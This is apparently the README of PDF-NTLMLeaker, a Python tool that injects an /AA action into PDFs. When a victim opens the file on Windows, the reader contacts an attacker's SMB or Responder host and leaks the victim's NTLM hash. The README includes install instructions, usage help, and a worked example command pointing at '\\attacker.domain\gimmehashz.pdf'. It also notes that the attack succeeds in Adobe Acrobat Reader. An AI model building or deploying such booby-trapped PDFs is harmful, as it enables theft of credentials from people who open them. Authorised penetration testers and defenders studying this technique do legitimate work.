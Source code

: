 # PDF-NTLMLeaker v0.1

## Description


This script implements the Proof of Concept attack from the Checkpoint research ["NTLM Credentials Theft via PDF Files"](https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/)

Basically, this Python script will inject in any given pdf a /AA entry that when parsed by the PDF reader will request a remote file in a server controlled by the attacker leaking the NTLM hash of any user that open that pdf document in a windows host. 

During my tests with the script I verified that this attack works nicely in the Adobe Acrobat Reader. But my tests failed in browser PDF readers (Edge, Firefox and Chrome) and also in the Foxit Reader 9.1.


# Install

Install required libraries with:

```
pip install pdfrw
```

# Example

```
$ python3 PDF-NTLMLeaker.py -h

========================================================================
|                         PDF-NTLMLeaker v0.1                          |
|                               by pimps                               |
========================================================================

usage: PDF-NTLMLeaker.py [-h] [-o OUTPUT] input path

positional arguments:
  input                       PDF file to be used as input.
  path                        UNC path of malicious SMB Server/Responder host
                              (ex: \\malicious.com\dumb_file.pdf)

optional arguments:
  -h, --help                  show this help message and exit
  -o OUTPUT, --output OUTPUT  Name of the output file. (default:
                              modified_file.pdf)

This script will inject a malicious metadata in a PDF file to force it leak
the NTLM hash of any user that open that file in a Windows host.

```


```

$ python3 PDF-NTLMLeaker.py sample.pdf '\\attacker.domain\gimmehashz.pdf'

========================================================================
|                         PDF-NTLMLeaker v0.1                          |
|                               by pimps                               |
========================================================================

[*] Reading PDF file: sample.pdf
[*] Injecting the payload in the PDF file...
[*] Saving modified PDF as: modified_file.pdf
[*] Done!

```

